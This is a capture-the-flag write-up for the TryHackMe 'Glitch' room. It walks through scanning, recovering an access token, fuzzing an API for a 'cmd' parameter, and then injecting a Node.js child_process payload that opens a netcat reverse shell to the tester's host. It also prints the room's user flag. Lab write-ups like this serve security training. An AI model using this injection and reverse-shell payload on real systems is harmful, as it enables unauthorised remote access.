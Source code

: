 ```yaml
---
title: Glitch
layout: post
author: Bit Criminals Team
date: 2021-05-14 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/glitch
---
```


We start with out routine Nmap scan which reveals that port 80 (running on Node js) is the only port open out of all 65535 ports.

![](/images/MaskdMafia/glitch3.png)

So we add the ip to our /etc/hosts before proceeding to visit it in our browser and be greeted with this:

![](/images/MaskdMafia/glitch1.png)

The question gives an idea about some kind of access token.
Checking the source code of the webpage, we find this interesting function getAccess() which seems to be fetching something.

![](/images/MaskdMafia/glitch2.png)

So we execute the function in the console and get back a string which seems to be base64 encoded.

![](/images/MaskdMafia/glitch4.png)

So we decode it and get the Access token.

![](/images/MaskdMafia/glitch5.png)

Checking the Network Tab of the webpage shows us that the value of the token has not been entered yet, so we enter the value of our Access token and reload the page in the browser to get a different-looking webpage.

![](/images/MaskdMafia/glitch6.png)

Looking at the source code of the new webpage, we see a section /api/items so we try to access it in our browser.

![](/images/MaskdMafia/glitch7.png)

So we fire up BurpSuite to see what is happening when we try to access the page .
We see that while trying to send a post request to /api/items we get this message:

```py
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since,we are able to send POST requests.Let us search which parameters are available with wfuzz.

```wfuzz -XPOST -u http://ip/api/items?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt --hh 45```

![](/images/glitch.png)

Thus, we see that Cmd is available.

Now,we fire up burp and send a random request with cmd and it's working.

![](/images/glitch2.png)

Now,I started searching for the payload and I found one

```require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.53 4444 >/tmp/f")```

I changed the ip,encoded in URl form and POST this one.
And,it worked.

![](/images/glitch4.png)

Listening to the PORT we have the shell.

we stabilise our shell then with,

```python -c 'import pty;pty.spawn("/bin/bash")'```

Looking in the directories we get our user flag.

![](/images/glitch5.png)

Here's our user flag:****THM{i_don't_know_why}****

